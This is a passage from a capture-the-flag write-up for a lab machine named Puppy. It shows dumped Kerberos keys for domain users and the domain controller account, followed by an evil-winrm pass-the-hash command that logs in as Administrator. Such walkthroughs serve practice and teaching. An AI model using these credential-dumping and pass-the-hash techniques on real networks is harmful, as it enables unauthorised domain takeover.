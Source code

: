 ```
PUPPY.HTB\steph.cooper:aes256-cts-hmac-sha1-96:799a0ea110f0ecda2569f6237cabd54e06a748c493568f4940f4c1790a11a6aa
PUPPY.HTB\steph.cooper:aes128-cts-hmac-sha1-96:cdd9ceb5fcd1696ba523306f41a7b93e
PUPPY.HTB\steph.cooper:des-cbc-md5:d35dfda40d38529b
PUPPY.HTB\steph.cooper_adm:aes256-cts-hmac-sha1-96:a3b657486c089233675e53e7e498c213dc5872d79468fff14f9481eccfc05ad9
PUPPY.HTB\steph.cooper_adm:aes128-cts-hmac-sha1-96:c23de8b49b6de2fc5496361e4048cf62
PUPPY.HTB\steph.cooper_adm:des-cbc-md5:6231015d381ab691
DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
DC$:des-cbc-md5:7f044607a8dc9710
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
```

### Pass-the-Hash — Administrator Access

Using pass-the-hash, I accessed the system as **Administrator**:

```bash
evil-winrm -i $IP  -u Administrator -H 9c541c389e2904b9b112f599fd6b333d
```

This command starts an Evil-WinRM session to `10.10.11.70` using the supplied NTLM hash.
